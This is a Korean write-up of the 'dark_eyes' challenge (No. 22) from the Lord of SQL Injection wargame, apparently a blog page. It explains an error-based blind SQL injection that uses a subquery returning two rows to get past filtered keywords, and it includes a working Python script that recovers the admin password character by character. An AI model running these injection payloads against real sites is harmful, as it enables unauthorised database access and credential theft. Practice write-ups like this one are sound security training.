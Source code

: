 ```yaml
---
title: LOS - 22번 dark_eyes
category: Lord of SQL Injection
---
```


# [22] dark_eyes

## 문제
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FQZVKB%2FbtrnR2UVQMP%2FtzRVYHPoeR2N10uYesKs8k%2Fimg.png">

## 풀이

이번 문제에서는 col, if, case, when, sleep, benchmark를 필터링하고 있다.

<br>

전체적인 구조는 이전 문제와 크게 다르지 않은 Error Based Blind SQLi 문제이다.

* 이전 문제와는 달리 에러가 발생할 시 에러 메시지를 보여주지는 않지만 exit됨으로 인해 빈 화면이 출력되므로 그 자체로 에러 여부 판별이 가능하다.

<br>

이번 문제의 핵심은 if문이나 case문을 사용하지 않고 특정 조건을 충족하는 경우에 에러를 발생시켜주는 것에 있다.

<br>

이래저래 대체할 방법을 찾아봤지만... 방법은 딱 하나인 것 같았다.

**서브쿼리**를 이용하는 것이다.

<br>

사용할 페이로드의 예시는 다음과 같다.

```python
param=f"?pw=' || (SELECT 1 UNION SELECT 2 where id='admin' and length(pw)={num}) %23"
```

① **SELECT 1 UNION SELECT 2**

- 서브쿼리가 둘 이상의 row를 반환하지 못한다는 특성을 이용하여, 해당 요소가 실행될 시 에러가 발생하게끔 유도한다.

② **where id='admin' and length(pw)={num}**

- pw의 길이가 일치할 시 where절이 True가 되므로 ①번 요소가 실행되고, 그로 인한 에러가 발생하게 된다.

- 에러의 발생 유무를 판별하여 pw의 길이와 일치하는 num을 찾아낼 수 있다.

<br>

이후 완전한 pw를 찾는 방법도 동일한 로직을 사용한다.

또한 이전 문제들과 마찬가지로, 2진 탐색을 적용하여 검색 속도를 높인다.

 
<br>
 

**LoS 22번 Python 자동화 코드**이다.

```python
import requests

def send(param):
    url = "https://los.rubiya.kr/chall/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php"
    cookie = "dfksep8hnmequ6sm0qe1iu65pa"
    head = {"PHPSESSID":f"{cookie}"}
    my_url = url+param
    res = requests.get(my_url, cookies=head)
    return res.text

print("💘 LoS 21을 시작합니다")

for num in range(0,100):
    param=f"?pw=' || (SELECT 1 UNION SELECT 2 where id='admin' and length(pw)={num}) %23"
    if("query" not in send(param)):
        print(f"👏 pw의 길이는 {num}입니다!")
        break

ans=""

for len in range(1, num+1):
    start = 32
    end = 127
    while True:
        middle = round((start+end)/2)
        param=f"?pw=' || (SELECT 1 UNION SELECT 2 where id=\"admin\" and ascii(substr(pw,{len},1))>={middle}) %23"
        if("query" not in send(param)):
            param=f"?pw=' || (SELECT 1 UNION SELECT 2 where id=\"admin\" and ascii(substr(pw,{len},1))={middle}) %23"
            if("query" not in send(param)):
                print(f"{len}번째 문자 → {chr(middle)}")
                ans+=chr(middle)
                break
            else:
                start = middle
                continue
        else:
            end = middle
            continue

print(f"👏 pw의 정체는 [{ans}]입니다!")
```

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcDNwU8%2FbtrnLHEJjIe%2FQayaMUVXj93KSZTUwujn3K%2Fimg.png">


Blind 공격 결과, pw는 `5a2f5d3c` 임을 확인할 수 있다.

## 결과
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FobIoV%2FbtrnN22UR9z%2FWb6jsJDojQmhcK1tCizpUk%2Fimg.png">